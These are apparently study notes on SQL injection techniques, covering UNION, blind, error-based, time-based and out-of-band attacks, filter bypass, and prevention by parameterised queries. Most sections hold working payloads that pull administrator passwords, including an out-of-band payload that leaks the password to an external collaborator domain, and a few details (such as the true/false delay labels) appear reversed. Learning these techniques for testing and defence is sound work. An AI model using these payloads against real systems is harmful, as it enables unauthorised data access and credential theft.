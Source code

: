 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' is not equal to 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Cookie TrackingID header in application uses SQL query to trace user data analytics.
- Example query of Cookie TrackingID:
  - `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
- It can be exploited through blind SQLI vulnerability.
  - eg of exploit: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
  - It forces a true condition and return password where first character is greater than m.
- Possible attacks:use Boolean to determine the true false of the criteria, eg: if the password length is more than x, starts with what alphabet.
- Then brute force base on response to get credentials.

## Error-Based SQLI
- Utilizes errors to extract or infer sensitive data.
- Effectiveness varies with Boolean conditions.
- Examples:
  - `' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
  - `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
- Can extract data through verbose SQL errors.
- Uses the `CAST()` function to convert data types and bypass conditional response prevention.
- Working examples that return data through error messages:
  - `' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—`
  - `' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—`

## Time-based SQLI
- Tests server response time to infer SQLI presence, especially useful if the database handles query errors robustly.
- Database-specific queries.
- Examples:
  - `'; IF (1=1) WAITFOR DELAY '0:0:10'—` (no time delay, true condition)
  - `'; IF (1=2) WAITFOR DELAY '0:0:10'--` (time delay, false condition)
- Working example:
  - `';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users—`

## OAST SQLI (Out-of-band Application Security Testing)
- A form of Blind SQLI that makes the server interact with a system under the attacker's control, often via DNS.
- Uses tools like Burp Collaborator for network interaction detection.
- Examples:
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—` (DNS lookup on a specific domain)
  - Using UNION and XXE for DNS lookups on collaborator subdomains.
  - SQLI in OAST to leak data, with the leaked data being part of the subdomain name.
  - eg: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—`
  - Output: p4ssw0rd.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com

## Bypassing SQLI Filters
- Using the hackvector extension in Burp Suite to encode payloads for XML WAP bypass.
- Example: `<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>`

## Checking Database Version
- MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

## SQLI Prevention:
- Illustrates how code is vulnerable to SQLI and how to prevent it by parameterizing the query.
- Highlights the importance of not allowing user input to interfere with the SQL query structure.
- Emphasizes best practices like input whitelisting, logical separation, and constant hard-coding.
- The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  - `String query = "SELECT * FROM products WHERE category = '"+ input + "'";`
  - `Statement statement = connection.createStatement();`
  - `ResultSet resultSet = statement.executeQuery(query);`


